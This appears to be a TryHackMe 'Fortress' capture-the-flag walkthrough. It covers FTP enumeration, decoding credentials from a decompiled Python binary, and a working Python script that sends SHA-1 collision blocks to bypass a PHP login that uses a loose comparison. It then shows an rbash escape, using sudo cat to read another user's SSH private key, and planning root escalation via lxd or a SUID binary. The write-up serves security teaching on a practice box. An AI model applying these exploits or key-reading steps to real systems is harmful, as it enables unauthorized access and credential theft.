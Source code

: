 <h3> Fortress TryHackMe </h3>

Difficulty = Medium

Nmap Scan:
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/b90c908d-b712-4207-b663-334cf62092b1)

Lets start enumeration from ftp 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/584e61c6-87d3-48cb-bdb3-0d832ee5c27f)

Reading the *marked.txt* file shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/de3ab684-1e53-49d5-9494-552336f8eec3)

While checking the file type for the *file* shows it's a python compiled binary
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/e8252502-7679-416a-a5f3-3f21526834b9)

Lets decompile it using [uncompyle2](https://github.com/wibiti/uncompyle2)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/d3c64e11-2d32-4558-bc2e-e1bbf94790a0)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/05362c40-c0bf-4158-9aa3-0fe89383676f)

We can see what it does. It creates a socket running on port *5752* and it asks for username and password, If the provided username and password is correct it calls the secret() function which basically opens up the *secret.txt* file

But the username and password is converted from bytes to long I wrote a script to decode it

```python
#!/usr/bin/python3
# Author: Hack.You
from Crypto.Util.number import long_to_bytes

usern = 232340432076717036154994
passw = 10555160959732308261529999676324629831532648692669445488

print(f'Username: {long_to_bytes(usern)}')
print(f'Password: {long_to_bytes(passw)}')
```

Running the script gives the username and password
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/071f17a7-1409-409b-b5ac-360259859634)

Now lets connect to the remote socket hosted on port 5752
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/d01ccd61-877e-4f5a-8260-2941292587fb)

It gives us this `t3mple_0f_y0ur_51n5`

What can we do with this now 🤔

Lets move over to the web server 

Checking it just shows the normal apache default web page

Fuzzing for directory doesn't lead me anywhere

But when i tried *t3mple_0f_y0ur_51n5* appended with a *.html* gives this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/a1236764-4b54-4f73-be57-aa3958c7c3f9)

But checking source code shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/1673f22e-ce94-4e8c-a9c0-9311298b1c52)

Also looking at the style.css file gives this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/a063d1e1-bcc3-4e67-9052-99353b710f23)

When decoded it forms this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/412f1966-bc68-4e97-8b6d-2221e85e5d75)

From here we can tell that we're to do a hash collision since *COLLIDING* was capitalized 

Here's what the php code does:

```
1. It assigns zero of length 6 to the badchar variable
2. It checks for if the username and password is passed via a get parameter
3. It converts them to string which are stored respectively in variable test1 and test2
4. It converts the two test variable to hex which are stored in hex1 and hex2 respectively
5. The first check that is done checks if test1 is equal to test2 then it prints out 'You can\'t cross the gates of the temple, GO AWAY!!
6. The second check is that if the string length of test2 is less than or equal to 500 and the string length of test1 is less than or equal to 600. If it is it prints out some error message
7. The third check, checks if the first occurrence of hex1 is equal to the bad byte or the first occurence of hex2 is equal to the bad bytes and if it is it prints an error message
8. The last check compares the sha1 value of test1 with that of test2 # bug here
```

From this we can tell that the bug is in the fourth check as it doesn't use *===* but rather *==* 

Using this past [writeup](https://github.com/bl4de/ctf/blob/master/2017/BostonKeyParty_2017/Prudentialv2/Prudentialv2_Cloud_50.md) on a ctf I edited the script to work for this box

```python
#!/usr/bin/env python
import requests

name = '255044462D312E33 0A25E2E3 CFD30A0A 0A312030 206F626A 0A3C3C2F 57696474 68203220 3020522F 48656967 68742033 20302052 2F547970 65203420 3020522F 53756274 79706520 35203020 522F4669 6C746572 20362030 20522F43 6F6C6F72 53706163 65203720 3020522F 4C656E67 74682038 20302052 2F426974 73506572 436F6D70 6F6E656E 7420383E 3E0A7374 7265616D 0AFFD8FF FE002453 48412D31 20697320 64656164 21212121 21852FEC 09233975 9C39B1A1 C63C4C97 E1FFFE01 7F46DC93 A6B67E01 3B029AAA 1DB2560B 45CA67D6 88C7F84B 8C4C791F E02B3DF6 14F86DB1 690901C5 6B45C153 0AFEDFB7 6038E972 722FE7AD 728F0E49 04E046C2 30570FE9 D41398AB E12EF5BC 942BE335 42A4802D 98B5D70F 2A332EC3 7FAC3514 E74DDC0F 2CC1A874 CD0C7830 5A215664 61309789 606BD0BF 3F98CDA8 044629A1 3C68746D 6C3E0A3C 73637269 7074206C 616E6775 6167653D 6A617661 73637269 70742074 7970653D 22746578 742F6A61 76617363 72697074 223E0A3C 212D2D20 40617277 202D2D3E 0A0A7661 72206820 3D20646F 63756D65 6E742E67 6574456C 656D656E 74734279 5461674E 616D6528 2248544D 4C22295B 305D2E69 6E6E6572 48544D4C 2E636861 72436F64 65417428 31303229 2E746F53 7472696E 67283136 293B0A69 66202868 203D3D20 27373327 29207B0A 20202020 646F6375 6D656E74 2E626F64 792E696E 6E657248 544D4C20 3D20223C 5354594C 453E626F 64797B62 61636B67 726F756E 642D636F 6C6F723A 5245443B 7D206831 7B666F6E 742D7369 7A653A35 3030253B 7D3C2F53 54594C45 3E3C4831 3E262378 31663634 383B3C2F 48313E22 3B0A7D20 656C7365 207B0A20 20202064 6F63756D 656E742E 626F6479 2E696E6E 65724854 4D4C203D 20223C53 54594C45 3E626F64 797B6261 636B6772 6F756E64 2D636F6C 6F723A42 4C55453B 7D206831 7B666F6E 742D7369 7A653A35 3030253B 7D3C2F53 54594C45 3E3C4831 3E262378 31663634 393B3C2F 48313E22 3B0A7D0A 0A3C2F73 63726970 743E0A0A'

password = '25504446 2D312E33 0A25E2E3 CFD30A0A 0A312030 206F626A 0A3C3C2F 57696474 68203220 3020522F 48656967 68742033 20302052 2F547970 65203420 3020522F 53756274 79706520 35203020 522F4669 6C746572 20362030 20522F43 6F6C6F72 53706163 65203720 3020522F 4C656E67 74682038 20302052 2F426974 73506572 436F6D70 6F6E656E 7420383E 3E0A7374 7265616D 0AFFD8FF FE002453 48412D31 20697320 64656164 21212121 21852FEC 09233975 9C39B1A1 C63C4C97 E1FFFE01 7346DC91 66B67E11 8F029AB6 21B2560F F9CA67CC A8C7F85B A84C7903 0C2B3DE2 18F86DB3 A90901D5 DF45C14F 26FEDFB3 DC38E96A C22FE7BD 728F0E45 BCE046D2 3C570FEB 141398BB 552EF5A0 A82BE331 FEA48037 B8B5D71F 0E332EDF 93AC3500 EB4DDC0D ECC1A864 790C782C 76215660 DD309791 D06BD0AF 3F98CDA4 BC4629B1 3C68746D 6C3E0A3C 73637269 7074206C 616E6775 6167653D 6A617661 73637269 70742074 7970653D 22746578 742F6A61 76617363 72697074 223E0A3C 212D2D20 40617277 202D2D3E 0A0A7661 72206820 3D20646F 63756D65 6E742E67 6574456C 656D656E 74734279 5461674E 616D6528 2248544D 4C22295B 305D2E69 6E6E6572 48544D4C 2E636861 72436F64 65417428 31303229 2E746F53 7472696E 67283136 293B0A69 66202868 203D3D20 27373327 29207B0A 20202020 646F6375 6D656E74 2E626F64 792E696E 6E657248 544D4C20 3D20223C 5354594C 453E626F 64797B62 61636B67 726F756E 642D636F 6C6F723A 5245443B 7D206831 7B666F6E 742D7369 7A653A35 3030253B 7D3C2F53 54594C45 3E3C4831 3E262378 31663634 383B3C2F 48313E22 3B0A7D20 656C7365 207B0A20 20202064 6F63756D 656E742E 626F6479 2E696E6E 65724854 4D4C203D 20223C53 54594C45 3E626F64 797B6261 636B6772 6F756E64 2D636F6C 6F723A42 4C55453B 7D206831 7B666F6E 742D7369 7A653A35 3030253B 7D3C2F53 54594C45 3E3C4831 3E262378 31663634 393B3C2F 48313E22 3B0A7D0A 0A3C2F73 63726970 743E0A0A'

name = ''.join(name.split(' '))
password = ''.join(password.split(' '))

namestr = ''.join(['%' + name[i] + name[i + 1]
           for i in range(0, len(name)) if i % 2 == 0])

passwordstr = ''.join(['%' + password[j] + password[j + 1]
           for j in range(0, len(password)) if j % 2 == 0])

url = 'http://fortress:7331/t3mple_0f_y0ur_51n5.php?user={}&pass={}'.format(namestr, passwordstr)
resp = requests.get(url)
print(resp.text)
```

Note: I had to use *t3mple_0f_y0ur_51n5.php* cause that's the main page the login is based on

Running the script works
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/149f9965-0e07-4090-9c9c-7a822eff1aae)

We can see this new file in the html *m0td_f0r_j4x0n.txt*

Going over there gives an ssh key
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/834d8346-f8d0-4e7b-8999-5f63018039ad)

Lets login to ssh as user *h4rdy* 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/5c692abf-0a51-483d-b33c-9dd4a2986c7c)

After loggin in we can tell that we're restricted to command cause we're in a rbash shell
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/1f2f1171-546c-4c2c-b42e-bc6e7950413b)

Quick google research leads [here](https://gist.github.com/PSJoshi/04c0e239ac7b486efb3420db4086e290)

Trying it works
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/5f9bfc96-a817-435f-bd59-c881ca2b865b)

But the problem is our path variable is messed up 

Lets fix that 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/888017ab-47ab-4ed3-97f6-e9466f36ce20)

```
Command: export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games:$PATH
```

Doing *sudo -l* shows we can run *cat* as user *j4x0n*
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/5b64d183-c0c7-494c-959f-0c49246f1888)

Checking [gtfobins](https://gtfobins.github.io/gtfobins/cat/#sudo) shows we can perform *File Read* 

The best file to read is the user's ssh key
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/2e636015-36c9-401a-b4c7-591528455224)

Lets save it and login as user *j4x0n*
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/d2c6a168-6fb9-478b-b3a6-bcf9d96e7bbd)

Looking at the files in the cwd directory shows this *endgame.txt* and viewing it's content shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/1670a4b5-faf0-4926-826a-8d1f1f61d402)

It claims that everything has been patched and no way of getting root well lets see about that 😅

I uploaded linpeas to the box and after running it I found this interesting
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/7dc2cad0-94a8-497a-bb9c-08463d9f0977)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/9a8ab466-ef10-44df-b284-90fc9bc90e9f)

From the result of the scan we can tell that:

```
1. One possible way of escalating privilege to root is by exploiting that lxd group perm
2. Checking the suid binaries
```

Lets start with the SUID binary first. I uploaded it to my machine for further analysis
